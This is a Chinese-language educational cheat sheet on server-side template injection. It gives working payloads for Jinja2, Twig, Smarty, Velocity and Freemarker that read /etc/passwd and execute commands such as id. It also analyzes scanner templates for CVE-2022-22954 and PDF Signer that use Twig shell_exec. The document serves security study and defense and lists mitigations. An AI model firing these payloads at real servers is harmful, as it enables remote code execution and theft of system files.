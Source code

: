 # 服务端模板注入 (SSTI)

> 模板注入允许攻击者将模板代码注入到现有（或新建）的模板中。模板引擎通过使用静态模板文件，在运行时用实际值替换HTML页面中的变量/占位符，使HTML页面设计更加容易。

## 目录

- [工具](#工具)
- [方法论](#方法论)
    - [识别易受攻击的输入字段](#识别易受攻击的输入字段)
    - [注入模板语法](#注入模板语法)
    - [枚举模板引擎](#枚举模板引擎)
    - [利用模板注入](#利用模板注入)
- [常见模板引擎的利用](#常见模板引擎的利用)
    - [Jinja2](#jinja2)
    - [Twig](#twig)
    - [Smarty](#smarty)
    - [Velocity](#velocity)
    - [Freemarker](#freemarker)
- [防御措施](#防御措施)
- [学习资源](#学习资源)

## 什么是SSTI？

服务端模板注入（SSTI）是一种安全漏洞，当攻击者能够将恶意模板代码注入到Web应用程序中时发生。这种漏洞通常出现在应用程序使用模板引擎渲染用户提供的数据时，没有正确清理用户输入。

## 识别易受攻击的输入字段

1. **查找用户输入点**
   - URL参数
   - 表单字段
   - HTTP头
   - Cookie
   - 文件上传

2. **测试模板注入**
   - 尝试基本的数学运算：`{{ 7*7 }}`
   - 尝试访问内置对象：`{{ self }}`
   - 尝试访问全局变量：`{{ config }}`

## 枚举模板引擎

不同的模板引擎有不同的语法和内置对象。以下是识别模板引擎的一些方法：

1. **Jinja2**
   ```
   {{ 7*'7' }}  # 返回 '7777777'
   {{ config.items() }}  # 返回配置项
   ```

2. **Twig**
   ```
   {{ _self }}  # 返回当前模板
   {{ _self.env }}  # 访问环境
   ```

3. **Smarty**
   ```
   {php}phpinfo(){/php}
   {$smarty.version}
   ```

## 常见模板引擎的利用

### Jinja2

```python
# 读取文件
{{ ''.__class__.__mro__[1].__subclasses__()[40]('/etc/passwd').read() }}

# 执行命令
{{ config.__class__.__init__.__globals__['os'].popen('id').read() }}
```

### Twig

```php
# 读取文件
{{ _self.env.getFilter('file')().getContents('/etc/passwd') }}

# 执行命令
{{ _self.env.registerUndefinedFilterCallback("exec") }}{{ _self.env.getFilter('id') }}
```

### Smarty

```smarty
{php}system('id');{/php}
{system('cat /etc/passwd')}
```

### Velocity

```velocity
#set($e="e")
$e.getClass().forName("java.lang.Runtime").getRuntime().exec("id")
```

### Freemarker

```freemarker
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("id") }
```

## 自动化工具

- [tplmap](https://github.com/epinna/tplmap) - 自动检测和利用SSTI漏洞的工具
- [SSTI-Payloads](https://github.com/payloadbox/ssti-payloads) - 各种模板引擎的SSTI有效载荷集合
- [Jinja2 SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2) - Jinja2特定的SSTI有效载荷

## 防御措施

1. **输入验证**
   - 对所有用户输入进行严格的验证
   - 使用白名单而不是黑名单

2. **沙箱**
   - 在沙箱环境中执行模板
   - 限制对敏感函数和对象的访问

3. **使用安全配置**
   - 禁用危险函数
   - 使用最新版本的模板引擎
   - 应用最小权限原则

4. **输出编码**
   - 对输出进行适当的编码
   - 使用自动转义功能

## 学习资源

- [PortSwigger SSTI 实验室](https://portswigger.net/web-security/server-side-template-injection)
- [OWASP SSTI 防御指南](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Template_Injection_Prevention_Cheat_Sheet.html)
- [SSTI 备忘单](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)

## 免责声明

本文档仅用于教育目的。请勿将其用于非法活动。在进行安全测试时，请确保您已获得适当的授权。

* [模板注入攻防 | Pwn
Tricks](https://pwn-tricks.com/backend/template-injection)

---

## 八、典型漏洞 YAML 文件分析

本目录收录了多个与 SSTI（服务器端模板注入）相关的漏洞利用模板，以下对部分典型 YAML 文件进行详细解读：

### 1. CVE-2022-22954.yaml
- **漏洞类型**：SSTI（VMware Workspace ONE Access）
- **漏洞原理**：
  VMware Workspace ONE Access 存在模板注入漏洞，攻击者可通过特制请求注入恶意模板表达式，最终实现远程代码执行。
- **探测原理**：
  该模板通过 GET 请求注入 Freemarker 模板 payload，该 payload 会尝试执行 `id` 命令。如果响应中包含了 `uid=`、`gid=` 和 `groups=` 等命令执行结果的关键字，则判定漏洞存在。
- **修复建议**：立即升级 VMware Workspace ONE Access 至官方修复版本。

### 2. pdf-signer-ssti-to-rce.yaml
- **漏洞类型**：SSTI（PDF Signer 3.0）
- **漏洞原理**：
  PDF Signer 3.0 在处理 Cookie 时存在 Twig 模板注入漏洞。攻击者可通过构造恶意的 Cookie，在模板渲染时执行任意 PHP 代码。
- **探测原理**：
  该模板在 Cookie 中注入一个 Twig SSTI payload，该 payload 利用 `_self.env.registerUndefinedFilterCallback("shell_exec")` 和 `_self.env.getFilter("cat /etc/passwd")` 来执行 `cat /etc/passwd` 命令。如果响应体中包含了 `root:x:0:0` 等典型 passwd 文件内容，则判定漏洞存在。
- **修复建议**：修复模板渲染逻辑，对所有用户可控的输入（包括 Cookie）进行严格的过滤和转义。

---

#### 总结
SSTI 漏洞的根源在于将用户输入不经处理地作为模板内容的一部分进行渲染。攻击者可以利用模板引擎提供的强大功能（如访问对象、执行函数）从数据渲染上下文逃逸到代码执行上下文。防御措施包括：
- **避免动态模板**：尽可能不让用户输入影响模板文件的结构。
- **沙箱与逻辑分离**：在无法避免动态模板时，使用安全的沙箱环境执行模板渲染，并确保渲染逻辑与业务逻辑分离。
- **严格的输入过滤**：对传入模板的数据进行严格的白名单校验和上下文感知的转义。
- **更新组件**：及时更新模板引擎至最新版本，以修复已知的安全漏洞。

